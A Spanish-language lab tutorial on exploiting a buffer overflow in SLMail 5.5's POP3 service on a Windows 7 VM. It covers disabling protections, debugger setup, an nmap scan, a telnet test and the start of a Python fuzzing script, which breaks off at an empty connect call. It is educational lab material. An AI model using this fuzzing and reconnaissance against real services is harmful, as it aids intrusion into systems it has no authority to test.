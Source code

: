 Ahora si abrimos en Inmunity Debugger y ponemos abajo **!mona** tenemos una utilidad para facilitarnos el manejo de la memoria.

Deshabilitamos el firewall para no tener conflictos con los puertos después; Windows Firewall --> Turn Windows Firewall on or off --> Turn off en todas.

Reiniciamos para que la deshabilitación del DEP se efectúe.  
Realizaremos el BoF al programa SLMail 5.5 así que lo descargamos, nos vale con el de Free Trail --> Trusted Download (al a derecha) --> Ejecutamos  --> Todo Next --> Y reiniciamos equipo.
Este servicio abrirá el puerto 25 y el 110, el puerto 110 es el vulnerable. Si hacemos un searchsploit slmail 5.5 estaría el exploit.


### ¡Al ataque!

Como dije antes realizaremos el BoF al programa SLMail 5.5, instalado en una máquina windows 7 de 32 bits, en VMWare en mi caso, con ip 192.168.11.30, el puerto vulnerable de este servicio es el 110. Y esta sería nuestra máquina víctima con el programa en servicio.

Desde nuestra máquina atacante realizamos un escaneo de puertos para comprobarlo:
```sh
> nmap -p- --open -SS --min-rate 5000 -vvv -n -Pn 192.168.11.30
# Veríamos el 110
```
Podriamos conectarnos por telnet o por netcat al servicio:
```sh
> telnet 192.168.10.30 110
# Verás cabecera de respuesta, y te puedes autenticar de esta manera:
USER test
PASS test
# No te dejará porque no existe.
```

### Fuzzig. Tomando el registro EIP.

Con fuzzear en este apartado me refiero a meter datos hasta que el programa crashea en algún punto/input de usuario del programa.  

Desde el Windows con el Inmunity Debugger nos sincronizaremos al programa a analizar, para ello:  
File--> Attach --> Buscar el nombre del programa, en el caso SLMail --> Attach. Veremos 4 partes y estará pausado el programa (abajo derecha). --> Pulsamos play

Dejamos esto apartado de momento y vamos a fuzzear. Para fuzzear nos creamos un chulo script en python:
```py
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_address = "192.168.10.30"
port = 110
total_lenght = int(sys.argv[1])
# Para al menos pasar un argumento al programa, el primero es el nombre del script recuerda. Lenght porque fuzzearé por cantidad de bytes para en algún momente exceder el buffer.
# Antes de eso tienes que hacer un typecasting, cambio de tipo porque te lo tomará por una string:
# total_lenght = type(int(sys.argv[1])) , y ejecutas el exploit.py.
if len(sys.argv) != 2:
    print("\n[!] Uso: exploit.py <lenght> \n")
    exit(1)

def exploit():
    # Creando socket por TCP
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # Conectando al server
    s.connect(())
```